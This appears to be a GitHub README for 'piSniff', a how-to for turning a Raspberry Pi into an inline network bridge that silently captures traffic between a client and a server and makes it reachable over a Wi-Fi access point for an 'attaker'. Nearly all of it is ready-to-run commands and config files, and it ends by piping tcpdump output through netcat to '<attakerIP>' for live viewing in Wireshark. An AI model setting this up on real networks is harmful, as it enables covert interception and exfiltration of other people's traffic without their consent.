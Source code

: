 
<p align="center">
<img src="https://github.com/0x25/piSniff/blob/master/logo.PNG" alt="piSniff">
</p>

# piSniff [![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)
sniff packet with your Raspberry and access it with wifi

```
                     attaker
                     (((.)))
                      (( ))
                     (((.)))
                    [wifi:AP]
client ------ [eth0]raspberry[usb:eth1] ----- server
                     


INSTALL ACCESS POINT

# hostap:wifi access point
# dnsmaq:dns & dhcp server 
# bridge-utils: bridge
# tcpdump ncat : net tools

sudo apt-get -y install dnsmasq hostapd
sudo apt-get -y install bridge-utils tcpdump ncat

sudo nano /etc/network/interfaces.d/wlan0
----------------
allow-hotplug wlan0  
iface wlan0 inet static  
    address 172.24.1.1
    netmask 255.255.255.0
    network 172.24.1.0
    broadcast 172.24.1.255
----------------

sudo ifdown wlan0; sudo ifup wlan0
ip a

CONFIGURE AP

sudo nano /etc/hostapd/hostapd.conf
-------------------
# This is the name of the WiFi interface we configured above
interface=wlan0

# Use the nl80211 driver with the brcmfmac driver
driver=nl80211

# This is the name of the network
ssid=Pi4-AP

# Use the 2.4GHz band
hw_mode=g

# Use channel 6
channel=6

# Enable 802.11n
ieee80211n=1

# Enable WMM
wmm_enabled=1

# Enable 40MHz channels with 20ns guard interval
ht_capab=[HT40][SHORT-GI-20][DSSS_CCK-40]

# Accept all MAC addresses
macaddr_acl=0

# Use WPA authentication
auth_algs=1

# Require clients to know the network name
ignore_broadcast_ssid=0

# Use WPA2
wpa=2

# Use a pre-shared key
wpa_key_mgmt=WPA-PSK

# The network passphrase
wpa_passphrase=raspberry

# Use AES, instead of TKIP
rsn_pairwise=CCMP
--------------------

sudo nano /etc/default/hostapd
-----------------
DAEMON_CONF="/etc/hostapd/hostapd.conf"
----------------

CONFIGURE DNSMASQ

sudo mv /etc/dnsmasq.conf /etc/dnsmasq.conf.orig
sudo nano /etc/dnsmasq.conf 
----------------------
interface=wlan0      # Use interface wlan0  
#listen-address=172.24.1.1 # Explicitly specify the address to listen on // conflict with "interface"  
bind-interfaces      # Bind to the interface to make sure we aren't sending things elsewhere  
#server=8.8.8.8       # Forward DNS requests to Google DNS  
domain-needed        # Don't forward short names  
bogus-priv           # Never forward addresses in the non-routed address spaces.  
dhcp-range=172.24.1.50,172.24.1.150,12h # Assign IP addresses between 172.24.1.50 and 172.24.1.150 with a 12 hour lease time  
----------------------

START

sudo service hostapd start
sudo service dnsmasq start

# if you get "masked" error run
sudo systemctl unmask hostapd
sudo systemctl enable hostapd
sudo systemctl start hostapd 


CONFIGURE BRIDGE eth0 eth1
# mount bridge will loose the eth connexion
# switch to wifi access

sudo brctl addbr br0       
sudo brctl addif br0 eth0
sudo brctl addif br0 eth1
sudo brctl show

sudo nano /etc/network/interfaces.d/eth0
------------
iface eth0 inet manuel
------------

sudo nano /etc/network/interfaces.d/eth1
------------
iface eth1 inet manuel
------------

sudo nano /etc/network/interfaces.d/br0
------------
iface br0 inet manuel
bridge_ports eth0 eth1
------------

sudo ifconfig br0 up


EXPORT PCAP TO HOST

on attaker
nc -l -p 9999 > capture.pcap

on raspberry 
tcpdump -s0 -U -n -w - -i br0 | nc <attakerIP> 9999

send tcpdump to wireshark attaker (on attacker)
nc -l -p 9999 | wireshark -k -S -i-

```

<p align="center">
<h1> View</h1>
<img src="https://github.com/0x25/piSniff/blob/master/Capture1.PNG" alt="rapsberry pisniff">
<h1> wireshark in the attacker remote PC
<img src="https://github.com/0x25/piSniff/blob/master/Capture3.PNG" alt="wireshark pisniff">
</p>

